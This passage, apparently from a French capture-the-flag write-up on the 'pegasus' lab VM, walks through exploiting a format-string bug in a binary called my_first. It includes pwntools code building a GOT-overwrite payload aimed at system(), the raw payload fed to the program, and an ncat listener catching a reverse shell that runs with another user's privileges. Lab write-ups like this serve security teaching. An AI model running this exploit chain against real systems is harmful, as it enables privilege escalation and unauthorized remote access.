 Bingo ! Plus qu'à corriger l'exploit pour qu'il utilise les fonctionnalitées `remote` de `pwntools` sauf que...

- le serveur SSH de la VM ne semble accepter que les mots de passe (dont on ne dispose pas) et ne tient pas compte du fichier `authorized_keys`

- `pwntools` ne semble pas fonctionner avec `reverse-ssh` que j'ai lancé sur le port 31337 de la VM

- en rajoutant une entrée à mon fichier `.ssh/config` pour autoriser quelques protocoles SSH dépréciés pour la VM je peux me connecter en SSH mais `pwntools` génère une exception dans sa dépendance `paramiko`

- 

Au final l'exploitation a consisté à :

- désactiver l'ASLR avec `ulimit`

- obtenir l'adresse de `system()` désormais fixe dans la mémoire du programme directement avec gdb (`0x40069060`)

- obtenir la chaine de format à passer au programme pour écraser l'adresse de `puts` dans la GOT via le code Python suivant

```python
from pwn import *

elf = ELF('./my_first')

info("puts@got = %#x", elf.got.puts)

payload = fmtstr_payload(8, {elf.got.puts: 0x40069060}, write_size="byte", strategy="small")
print(payload)
```

Je passe la chaine générée ainsi que les différents choix à saisir sur l'entrée standard du programme :

```shellsession
mike@pegasus:/home/mike$ printf '1\n1\n%%64c%%17$hhn%%32c%%18$hhn%%1584c%%19$hnaa\x07\x9c\x04\x08\x04\x9c\x04\x08\x05\x9c\x04\x08\n4\n' | ./my_first
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details:
```

On ne voit pas le message `Goodbye!` car l'affichage a bien été remplacé par une exécution. J'avais préalablement placé un fichier `Goodbye!` contenant une commande pour lancer [un reverse shell Python](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) :

```shellsession
$ sudo ncat -l -p 443 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.57.5.
Ncat: Connection from 192.168.57.5:35456.
$ id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
```
